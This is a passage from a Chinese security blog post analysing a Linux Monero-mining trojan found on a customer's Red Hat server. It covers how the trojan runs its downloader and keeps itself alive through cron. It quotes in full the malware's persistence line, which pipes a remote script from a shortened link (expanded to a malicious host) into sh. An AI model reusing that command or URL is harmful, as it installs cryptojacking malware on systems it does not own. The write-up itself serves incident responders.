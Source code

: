 > 原文链接: https://www.anquanke.com//post/id/106878 


# 一个Linux平台的“门罗币”挖矿木马的查杀与分析


                                阅读量   
                                **132725**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">1</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p1.ssl.qhimg.com/t0135e87aacc45dcd26.png)](https://p1.ssl.qhimg.com/t0135e87aacc45dcd26.png)



> 近期接到客户反映，其机房有一台redhat服务器很卡，导致很多服务响应速度很慢的情况。通过远程到客户机器，发现一个进程占据700%多CPU的使用率。通过分析，定性为是一起针对“门罗币”的挖矿木马入侵事件。本文记录处理该事件的关键过程以及对该挖矿木马核心代码进行的分析，方便做事件响应的同行们碰到同家族类型木马后可以快速查杀，定性威胁事件。



## 1．木马行为与查杀过程

### 主要行为

木马以r88.sh作为downloader首先控制服务器，通过判断当前账户的权限是否为root来进行下一步的操作，若为root则在目录/var/spool/cron/root和/var/spool/cron/crontabs/root下写计划任务“*/5 * * * * curl -sL https://x.co/6nPMR | sh”，其中这个短链接还原后为https://xmr.enjoytopic.tk/12/r88.sh。若为非root账户，则不写计划任务。接着均会执行下载运行rootv2.sh或lowerv2.sh（基于当前账户是否为root来选择下载脚本）等一系列的操作。

木马的挖矿组件bashd和bashe在系统中执行后，毫不掩饰地就开始挖矿，CPU直接就占据好几百，简直粗暴。是不是应该考虑下根据机器的当前运行状态来“人性化挖矿”呢？

[![](https://p5.ssl.qhimg.com/t01ee6876481ac90d4e.png)](https://p5.ssl.qhimg.com/t01ee6876481ac90d4e.png)



### 简单的进程保护行为

为了防被杀后还能继续挖矿，其通过写入定时任务的方式来实现简单的进程保护，通过一定时间间隔使用curl与wget远程下载shell脚本程序执行，该脚本的功能会执行本地路径下已存在的挖矿程序，若不存在则会重新下载挖矿程序执行。

[![](https://p5.ssl.qhimg.com/t01612e73c0bfa87008.png)](https://p5.ssl.qhimg.com/t01612e73c0bfa87008.png)

其中该木马在多个路径都写入了定时任务来实现维持访问，包括：/var/spool/cron/root、/var/spool/cron/crontabs/root以及/etc/cron.d。前两个位置直接就在r88.sh这个文件中暴露了出来：

[![](https://p5.ssl.qhimg.com/t01c63dd8a1c191c793.png)](https://p5.ssl.qhimg.com/t01c63dd8a1c191c793.png)
